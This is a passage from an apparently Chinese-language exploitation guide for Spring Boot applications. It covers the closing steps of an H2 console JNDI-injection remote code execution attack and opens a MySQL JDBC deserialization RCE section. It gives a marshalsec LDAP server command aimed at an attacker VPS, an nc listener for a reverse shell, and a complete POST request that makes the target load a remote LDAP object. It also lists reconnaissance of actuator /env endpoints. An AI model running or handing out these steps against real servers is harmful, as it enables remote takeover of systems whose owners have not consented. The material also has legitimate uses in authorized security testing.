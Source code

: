 ```
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://your-vps-ip:80/#JNDIObject 1389
```

**步骤五：监听反弹 shell 的端口**

一般使用 nc 监听端口，等待反弹 shell

```
nc -lv 443
```

**步骤六：发包触发 JNDI 注入**

根据实际情况，替换下面数据中的 `jsessionid=xxxxxx`、`www.example.com` 和 `ldap://your-vps-ip:1389/JNDIObject`

```
POST /h2-console/login.do?jsessionid=xxxxxx
Host: www.example.com
Content-Type: application/x-www-form-urlencoded
Referer: http://www.example.com/h2-console/login.jsp?jsessionid=xxxxxx

language=en&setting=Generic+H2+%28Embedded%29&name=Generic+H2+%28Embedded%29&driver=javax.naming.InitialContext&url=ldap://your-vps-ip:1389/JNDIObject&user=&password=
```

**漏洞分析：**

​ [Spring Boot + H2数据库JNDI注入](https://mp.weixin.qq.com/s/Yn5U8WHGJZbTJsxwUU3UiQ)

**漏洞环境：**

[repository/springboot-h2-database-rce](https://github.com/LandGrey/SpringBootVulExploit/tree/master/repository/springboot-h2-database-rce)

正常访问：

```
http://127.0.0.1:9096/h2-console
```

#### 0x08：mysql jdbc deserialization RCE

**利用条件：**

* 可以 POST 请求目标网站的 `/env` 接口设置属性
* 可以 POST 请求目标网站的 `/refresh` 接口刷新配置（存在 `spring-boot-starter-actuator` 依赖）
* 目标环境中存在 `mysql-connector-java` 依赖
* 目标可以请求攻击者的服务器（请求可出外网）

**利用方法：**

**步骤一：查看环境依赖**

GET 请求 `/env` 或 `/actuator/env`，搜索环境变量（classpath）中是否有 `mysql-connector-java` 关键词，并记录下其版本号（5.x 或 8.x）；

搜索并观察环境变量中是否存在常见的反序列化 gadget 依赖，比如 `commons-collections`、`Jdk7u21`、`Jdk8u20` 等；

搜索 `spring.datasource.url` 关键词，记录下其 `value` 值，方便后续恢复其正常 jdbc url 值。
